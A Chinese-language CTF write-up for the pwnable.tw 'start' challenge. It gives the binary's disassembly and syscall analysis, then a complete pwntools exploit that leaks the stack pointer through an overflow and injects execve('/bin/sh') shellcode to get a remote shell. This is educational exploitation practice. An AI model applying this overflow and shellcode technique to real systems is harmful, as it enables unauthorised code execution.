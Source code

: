 # 1.start

> 参考资料：
>
> * 安全客，前六题的题解：[https://www.anquanke.com/post/id/150359](https://www.anquanke.com/post/id/150359)
> * Linux Syscall Reference：[http://syscalls.kernelgrok.com/](http://syscalls.kernelgrok.com)
> * Assembly Reference: [https://www.felixcloutier.com/x86/](https://www.felixcloutier.com/x86/)

## START

首先检查安全保护等级：

```bash
$ checksec ./start
[*] '/mnt/d/program/ctf/pwnable/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

查看汇编代码：

```bash
$ objdump -d ./start

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       54                      push   %esp
 8048061:       68 9d 80 04 08          push   $0x804809d
 8048066:       31 c0                   xor    %eax,%eax
 8048068:       31 db                   xor    %ebx,%ebx
 804806a:       31 c9                   xor    %ecx,%ecx
 804806c:       31 d2                   xor    %edx,%edx
 804806e:       68 43 54 46 3a          push   $0x3a465443
 8048073:       68 74 68 65 20          push   $0x20656874
 8048078:       68 61 72 74 20          push   $0x20747261
 804807d:       68 73 20 73 74          push   $0x74732073
 8048082:       68 4c 65 74 27          push   $0x2774654c
 8048087:       89 e1                   mov    %esp,%ecx
 8048089:       b2 14                   mov    $0x14,%dl
 804808b:       b3 01                   mov    $0x1,%bl
 804808d:       b0 04                   mov    $0x4,%al
 804808f:       cd 80                   int    $0x80
 8048091:       31 db                   xor    %ebx,%ebx
 8048093:       b2 3c                   mov    $0x3c,%dl
 8048095:       b0 03                   mov    $0x3,%al
 8048097:       cd 80                   int    $0x80
 8048099:       83 c4 14                add    $0x14,%esp
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    %esp
 804809e:       31 c0                   xor    %eax,%eax
 80480a0:       40                      inc    %eax
 80480a1:       cd 80                   int    $0x80
```

我们分析这个汇编代码的结构：

1. 观察这个函数的开始段，它并没有诸如押入 `ebp` 等栈操作。一直到 `0x804806c` 这个地址，函数做了一些初始化的事情，并且把四个寄存器置 0；
2.  `0x804806e - 0x8048082` 这段地址向栈中存入了字符串（小端存储、栈从高到低增长）：

    ```python
    print(b'\x4c\x65\x74\x27\x73\x20\x73\x74\x61\x72\x74\x20\x74\x68\x65\x20\x43\x54\x46\x3a')
    # b"Let's start the CTF:"
    ```
3.  `0x8048087 - 0x804808f` 这段代码调用了 `int 80h` 中断，查询[网址](http://syscalls.kernelgrok.com/%3E)，知道 4 号中断是 `sys_write()`：

    ```c
    sys_write(unsigned int fd = 1, const char __user *buf = $esp, int count = 0x14)
    ```
4.  `0x8048091 - 0x8048097` 这段代码调用了 `int 80h` 的 3 号中断 `sys_read()`：

    ```c
    sys_read(unsigned int fd = 0, const char __user *buf = $esp, int count = 0x3c)
    ```
5. 然后程序在 `0x8048099` 将栈顶指针上移了 `0x14` 个字节。
6. 然后程序执行 `ret` 指令（`ret` 指令只做一件事情，将程序的执行权交给栈顶 `esp` 指向的地址）。

`exp.py` 如下：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./start'])
        else:
            self.p = remote("chall.pwnable.tw", 10000)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def leak_esp(self):
        self.p.recvuntil(':')
        payload1 = 'a'*0x14 + p32(0x8048087)
        self.p.send(payload1)
        self.esp = self.p.recv(4)
        print("get esp:", list(self.esp))

    def inject_shellcode(self):
        shellcode = asm(''.join([
            "push %d\n" % u32("/sh\0"),
            "push %d\n" % u32("/bin"),
            "mov ebx,esp\n",  # EBX 指向栈顶
            "xor edx,edx\n",  # 置零 EDX
            "xor ecx,ecx\n",  # 置零 ECX
            "mov eax,0xb\n",  # 指明中断进程 sys_execute
            "int 0x80"
        ]))
        assert len(shellcode) < 0x3c - 0x14 - 0x4
        payload2 = 'a'*0x14 + p32(u32(self.esp) + 0x14) + shellcode
        self.p.send(payload2)

    def get_shell(self):
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.leak_esp()
        self.inject_shellcode()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")

if __name__ == "__main__":
    s = Challenge(False)
    s.pwn()
```
